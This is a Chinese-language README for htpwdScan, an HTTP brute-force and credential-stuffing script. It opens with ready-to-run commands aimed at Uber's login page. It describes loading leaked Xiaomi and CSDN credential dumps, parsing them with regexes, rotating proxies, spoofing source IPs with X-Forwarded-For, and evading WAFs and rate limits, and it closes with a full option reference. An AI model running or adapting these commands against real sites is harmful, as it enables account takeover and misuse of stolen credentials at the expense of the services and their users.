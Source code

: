 uber login scan
====
* 调试
  	>python htpwdScan.py -proxylist=proxylist.txt  -f=uber.txt -https -t=1 -d email=dict/pinyin2.txt password=dict/password.txt -err="电子信箱或密码无效" -debug
	
	>-proxylist=proxylist.txt,指定代理列表
	>-f=uber.txt 手动从 login页面抓取 request header 和 formdata	
	>email和password  指定用户名密码文件
	>-err="电子信箱或密码无效" ，response中存在此字符串视为登录失败
        >-t=1 单线程

* 无人值守扫描
	>python htpwdScan.py -proxylist=proxylist.txt  -f=uber.txt -https -t=30 -d email=dict/pinyin2.txt password=dict/password.txt -suc="***" -o=uber_success.txt
	
        >-suc="***" -o=uber_success.txt  只保留登录成功的信息


htpwdScan
====

**htpwdScan** 是一个简单的HTTP暴力破解、撞库攻击脚本. 它的特性：

- 支持批量校验并导入HTTP代理，低频撞库可以成功攻击大部分网站，绕过大部分防御策略和waf
- 支持直接导入互联网上泄露的**社工库**，发起撞库攻击
- 支持导入超大字典

### 简单示例 ###

* HTTP Basic认证

	>htpwdScan.py -u=http://auth.58.com/ -basic user.txt password.txt
	
	>导入用户名密码字典即可

* 表单破解
	>htpwdScan.py -f post2.txt -d user=user.txt passwd=password.txt -err="success\":false"
	
	>从 post2.txt 导入抓的http包，user和passwd是需要破解的参数，而 user.txt password.txt 是保存了密码的字典文件
	
	>**success":false** 是选择的失败标记，标记中若有双引号，请记得用右斜杠 \ 转义

* GET参数破解
	>htpwdScan.py -d passwd=password.txt -u="http://xxx.com/index.php?m=login&username=test&passwd=test" -get -err="success\":false"
	
	> 使用-get参数告诉脚本此处是GET请求
	
* 撞库攻击
	> htpwdScan.py -f=post.txt -database loginname,passwd=xiaomi.txt -regex="(\S+)\s+(\S+)" -err="用户名或密码错误" -fip

	>htpwdScan.py -f=post.txt -database passwd,loginname=csdn.net.sql -regex="\S+ # (\S+) # (\S+)" -err="用户名或密码错误" -fip
	
	>使用小米和csdn库发起撞库攻击。post.txt是抓包的HTTP请求

	>参数-regex设定从文件提取参数的正则表达式，此处需分组，分组的方式是使用括号()
	
	>小米的数据行格式是 `xxx@163.com	xxxxxxx` 也即 `(用户名)空白字符(密码)`
	
	>`(\S+)\s+(\S+)` 可指定第一个非空白字符拿去填充loginname，而第二个非空白字符串拿去填充passwd
	
	>csdn的数据行格式是`zdg # 12344321 # zdg@csdn.net` . 正则表达式写作`\S+ # (\S+) # (\S+)`
	
	>第一个#后面的非空白字符串填充passwd，第二个#后面的非空白字符串填充loginname
	
	>请注意，参数的顺序是重要的
	
	>-fip 是启用伪造随机IP
	
* 校验HTTP代理
	> htpwdScan.py -f=post.txt -proxylist=proxies.txt -checkproxy -suc="用户名或密码错误"
	
	> 要破解某个网站，批量测试使用代理是否连通目标网站，把HTTP请求保存到post.txt，然后用-suc参数设定连通标记
	
	>一个简单可行的校验方式是：
	
	> htpwdScan.py -u=http://www.baidu.com -get -proxylist=available.txt -checkproxy -suc="百度一下"

## 完整参数说明 ##
脚本支持的小功能较多，请耐心阅读以下完整说明。建议多使用 `-debug` 参数查看HTTP请求是否有问题，没问题再发起真正的破解。

	usage: htpwdScan.py [options]
	
	* An HTTP weak pass scanner. By LiJieJie *
	
	optional arguments:
	  -h, --help            显示帮助
	
	Target:
	  -u REQUESTURL         设定目标URL, 示例.
	                        -u="https://www.test.com/login.php"
	  -f REQUESTFILE        从文件导入HTTP请求
	  -https                当从文件导入HTTP请求时，启用https(SSL)
	  -get                  使用GET方法，默认: POST
	  -basic  [ ...]        HTTP Basic 暴力破解.
	                        示例. -basic users.dic pass.dic
	
	Dictionary:
	  -d Param=DictFile [Param=DictFile ...]
	                        为参数设定字典文件,
	                        支持哈希函数如 md5, md5_16, sha1.
	                        示例. -d user=users.dic pass=md5(pass.dic)
	
	Detect:
	  -no302                无视302跳转, 默认302敏感
	  -err ERR [ERR ...]    响应文本的破解失败标记,
	                        示例. -err "user not exist" "password wrong"
	  -suc SUC [SUC ...]    响应文本中的破解成功标记,
	                        e.g. -suc "welcome," "admin"
	  -herr HERR            响应HTTP头的破解失败标记
	  -hsuc HSUC            响应HTTP头的破解成功标记
	  -rtxt RetryText       响应文本中的重试标记，出现则重试请求,
	                        示例. -rtxt="IP blocked"
	  -rntxt RetryNoText    响应文本中的重试标记,未出现则重试请求，
	                        示例. -rntxt="<body>"
	  -rheader RetryHeader  响应头中的重试标记，出现则重试请求,
	                        示例. -rheader="Set-Cookie:"
	  -rnheader RetryNoHeader
	                        响应头中的重试标记，未出现则重试请求,
	                        示例. -rheader="HTTP/1.1 200 OK"
	
	Proxy and spoof:
	  -proxy Server:Port    设定少量HTTP代理
	                        示例. -proxy=127.0.0.1:8000,8.8.8.8:8000
	  -proxylist ProxyListFile
	                        从文件批量导入HTTP代理,
	                        示例. -proxylist=proxys.txt
	  -checkproxy           检查代理服务器的可用性.
	                        可用代理输出到 001.proxy.servers.txt
	  -fip                  生成随机X-Forwarded-For欺骗源IP
	  -fsid FSID            生成随机session ID. 示例. -fsid PHPSESSID
	  -sleep SECONDS        每次HTTP结束，等待SECONDS秒,
	                        避免IP被临时屏蔽，进入黑名单
	
	Database attack:
	  -database DATABASE    导入社工库中的数据.
	                        示例. -database user,pass=csdn.txt
	  -regex REGEX          从社工库中提取数据的正则表达式，必须分组.
	                        示例. -regex="(\S+)\s+(\S+)"
	
	General:
	  -t THREADS            工作线程数，默认50
	  -o OUTPUT             输出文件.  默认: 000.Cracked.Passwords.txt
	  -debug                进入debug模式检查HTTP请求和HTTP响应
	  -nov                  只显示破解成功的条目，不显示进度
	  -v                    show program's version number and exit


### 反馈 ###

使用中若发现问题，请反馈给我。  my[at]lijiejie.com [http://www.lijiejie.com](http://www.lijiejie.com)